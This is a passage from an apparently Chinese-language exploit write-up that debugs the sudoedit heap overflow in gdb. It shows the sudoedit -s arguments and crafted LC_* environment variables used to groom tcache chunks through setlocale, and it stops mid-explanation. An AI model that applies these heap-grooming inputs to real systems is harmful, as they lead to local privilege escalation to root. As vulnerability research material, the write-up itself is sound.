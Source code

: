   
```
Allocated chunk | PREV_INUSEAddr: 0x5614ccbdb4a0Size: 0x61
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8EFByb6SIYFJwibicNia88y1q6lq8RkMNGjKHmZpmHdBJiaJel2xjehcMsfJ9aRw8dyvJBGeOk2ShxoCg/640?wx_fmt=png&from=appmsg "null")  
![]( "")  
![]( "")  
  
  
手动注入指定的环境变量，构造出3个0x40和一个0xa0的堆块到tcachebin中！  
  
  
```
set args -s \\ 111111111111111111111111111111111111111111111111111111111111111111111111111111111b setlocale@pltshow environmentset environment LC_IDENTIFICATION=C.UTF-8@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAset environment LC_MEASUREMENT=C.UTF-8@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAset environment LC_TELEPHONE=C.UTF-8@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAset environment LC_ADDRESS=C.UTF-8@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAset environment LC_NAME=xxxxxxxxxxxxxxxxxxxxxb new_composite_name
```  
  
  
  
手动注入环境变量，发现注入5个环境变量才会将目标堆块释放！  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8EFByb6SIYFJwibicNia88y1q6uRbZh2m49L7uH9NfmYQgfN10icXTNryK6tKXcwfkKtnFmAyLia9O8qiaw/640?wx_fmt=png&from=appmsg "null")  
![]( "")  
![]( "")  
  
  
  
发现当环境变量中存在LC_*  
的时候setlocale函数会创建堆块和释放堆块，不然不会进行堆内存操作！  
  
  
只有当存在5个环境变量的时候，bin中才可以看见4个特意构造大小的堆块！  
  
  
需要构造一个不符合规则的环境变量才可以成功将其他符合规则的堆块进行按顺序free！  
  
  
```
#不符合规则的环境变量set environment LC_NAME=xxxxxxxxxxxxxxxxxxxxx
```  
  
  
  
查看一下原因：  
  
  
```
gdb sudoeditset args -s \\ 111111111111111111111111111111111111111111111111111111111111111111111111111111111b setlocale@pltrunb mainset environment LC_IDENTIFICATION=C.UTF-8@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdirectory /root/glibc-2.27/locale/b  /root/glibc-2.27/locale/setlocale.c:369
```  
  
  
  
关键核心导致堆块未被free的原因：  
  
